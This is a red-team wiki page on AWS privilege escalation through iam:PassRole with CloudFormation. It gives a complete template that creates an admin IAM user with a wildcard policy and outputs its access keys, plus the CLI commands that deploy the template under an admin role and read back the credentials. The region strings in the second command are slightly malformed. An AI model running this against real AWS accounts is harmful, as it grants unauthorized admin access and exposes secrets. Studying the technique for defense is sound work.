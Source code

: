 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
     "Resources": {
         "AdminUser": {
             "Type": "AWS::IAM::User"
         },
         "AdminPolicy": {
             "Type": "AWS::IAM::ManagedPolicy",
                 "Properties": {
                 "Description" : "This policy allows all actions on all resources.",
                 "PolicyDocument": {
                     "Version": "2012-10-17",
                     "Statement": [
                     {
                         "Effect": "Allow",
                         "Action": [
                         "*"
                         ],
                         "Resource": "*"
                     }]
                 },
                 "Users": [{
                     "Ref": "AdminUser"
                 }]
             }
         },
         "MyUserKeys": {
             "Type": "AWS::IAM::AccessKey",
             "Properties": {
                 "UserName": {
                     "Ref": "AdminUser"
                 }
             }
         }
       },
     "Outputs": {
         "AccessKey": {
             "Value": {
                 "Ref": "MyUserKeys"
             },
             "Description": "Access Key ID of Admin User"
         },
         "SecretKey": {
             "Value": {
                 "Fn::GetAtt": [
                 "MyUserKeys",
                 "SecretAccessKey"
                 ]
             },
             "Description": "Secret Key of Admin User"
         }
     }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
